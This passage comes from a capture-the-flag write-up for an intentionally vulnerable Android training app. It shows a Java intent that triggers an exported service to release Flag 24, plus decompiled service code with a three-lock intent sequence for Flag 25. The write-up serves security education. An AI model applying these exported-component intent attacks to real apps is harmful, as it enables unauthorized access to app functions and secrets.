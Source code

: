 In the service when it's started it checks for the action of intent and when it's true a method that will create an intent with extra string `secret` and will start `flag24activity` 

#### Solution

Sending an intent with action `"io.hextree.services.START_FLAG24_SERVICE"` to the service will do the trick

```java
Intent send = new Intent();  
send.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag24Service");  
send.setAction("io.hextree.services.START_FLAG24_SERVICE");  
startService(send);
```

### Flag 25
#### Code analysis
```java
    boolean lock1 = false;
    boolean lock2 = false;
    boolean lock3 = false;
    
    public int onStartCommand(Intent intent, int i, int i2) {
        if (intent != null) {
            if (intent.getAction().equals("io.hextree.services.UNLOCK1")) {
                this.lock1 = true;
            }
            if (intent.getAction().equals("io.hextree.services.UNLOCK2")) {
                if (this.lock1) {
                    this.lock2 = true;
                } else {
                    resetLocks();
                }
            }
            if (intent.getAction().equals("io.hextree.services.UNLOCK3")) {
                if (this.lock2) {
                    this.lock3 = true;
                } else {
                    resetLocks();
                }
            }
            if (this.lock1 && this.lock2 && this.lock3) {
                success();
                resetLocks();
            }
        }
    }
    private void success() {
        Intent intent = new Intent(this, (Class<?>) Flag25Activity.class);
        intent.putExtra("secret", secret);
        intent.putExtra("lock", "lock1");
        intent.putExtra("lock2", "lock3");
        startActivity(intent);
    }
```
